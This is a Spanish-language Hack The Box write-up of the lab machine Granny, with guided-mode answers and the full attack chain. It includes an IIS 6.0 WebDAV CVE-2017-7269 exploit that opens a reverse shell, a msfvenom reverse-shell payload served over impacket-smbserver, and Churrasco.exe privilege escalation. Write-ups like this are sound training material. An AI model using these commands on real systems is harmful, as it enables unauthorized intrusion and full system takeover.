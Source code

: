 ```yaml
---
title: Writeup granny - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - granny
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina granny en Hack The Box.
keywords:
  - writeup granny
  - hack the box granny
  - resolución máquina granny
  - granny hack the box
  - htb granny
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Granny)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=s_1LaGfKMkU)|[Parte2](https://www.youtube.com/watch?v=ul8bA5CgpfI)
- 🧠 **Explicación resumida**: 

---

#easy #windows #nmap #ping #churrascoexe #impacket-smbserver #CVE-2017-7269 #whatweb #wappalyzer #whoami #msfvenom #rwrapncnlvp443 

-------
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en Granny?
	1

2)¿Cómo se llama el script de nmap que identifica los métodos HTTP permitidos en Granny?
	http-webdav-scan

3)¿Qué marco de aplicaciones web basado en DOTNET se está ejecutando en el servidor web de destino?
	ASP.NET

4)¿Qué método HTTP se puede utilizar para subir archivos a Granny?
	PUT

5)¿Cuál es el ID CVE 2017 de una vulnerabilidad que aprovecha esta versión de IIS y WebDAV, lo que da lugar a la ejecución remota de código?
	CVE-2017-7269

6)¿Qué módulo de reconocimiento de Metasploit se puede utilizar para enumerar las posibles rutas de escalada de privilegios en un sistema comprometido?
	local_exploit_suggester

----

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.15
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.15 -oG allPorts
nmap -sC -sV -p80 10.10.10.15 -oN targetTCP
nmap -sU -Pn -n -vvv --top-ports 200 10.10.10.15 -oN targetUDP
```

![[Granny1.png]]

![[Granny2.png]]

![[Granny3.png]]
*TTL:* Maquina Windows
*Puertos TCP:*
	`80` HTTP
*Puertos UDP:*
	Demasiado ruido, no hay información relevante

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.15/
```

![[Granny5.png]]
![[Granny4.png]]
Lo impor tante es microsoft-IIS 6.0

---------
# [[CVE-2017-7269]]

Con [[git clone]] usamos el comando `git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269` para descargar el repositorio, despues con [[cd]] usamos `cd iis6-exploit-2017-CVE-2017-7269` y luego con ``python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.16.15 443`` vamos a mandarnos la [[Reverse shell]] mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]]


![[Granny6.png]]

![[Granny7.png]]
Ya ganamos acceso a la maquina

--------
# Escalada de privilegios con [[Churrasco.exe]]

Usamos [[whoami]] con el comando `whoami /all`

![[Granny10.png]]
Vemos que *SeImpersonatePrivilege* esta activado
Se podria hacer un JuicyPotato pero como es un windows muy viejo vamos a usar la version anterior que es la de [[Churrasco.exe]]
Descargamos el exploit desde este [repositorio](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012/pr.exe)


### Con [[msfvenom]] vamos a crear el ejecutable *exploit.exe* para enviarnos una [[Reverse shell]]

```shell
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=500 -f exe -o exploit.exe
```
![[Granny19.png]]



Desde nuestra maquina de atacante, donde tenemos el ejecutable del [[Churrasco.exe]] vamos a levantar un [[impacket-smbserver]] con el comando `impacket-smbserver smbfolder $(pwd) -smb2support`
![[Granny18.png]]

Vamos a crear una carpeta llamada */tmp* en *C:* para poder tener permisos de escritura sin ningun tipo de problemas
Y desde la maquina victima vamos a descargar los archivos con `copy \\10.10.16.15\smbfolder\exploit.exe .` y `copy \\10.10.16.15\smbfolder\churrasco.exe .`
![[Granny15.png]]

Ejecutamos el [[Churrasco.exe]] pasandole el *exploit.exe* que creamos para enviarnos una [[Reverse shell]] con [[msfvenom]]

![[Granny14.png]]
Mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]] con el comando `rlwrap nc -nlvp 500` para enviarnos una [[Reverse shell]]
![[Granny12.png]]
Ya elevamos nuestro privilegio al maximo y podemos ver las flags

![[Granny16.png]]
![[Granny17.png]]

------
# Creditos

[Writeup jtsec](https://www.jtsec.es/blog-entry/61/road-to-oscp-hack-the-box-write-up-granny)
[Writeup binaryregion](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)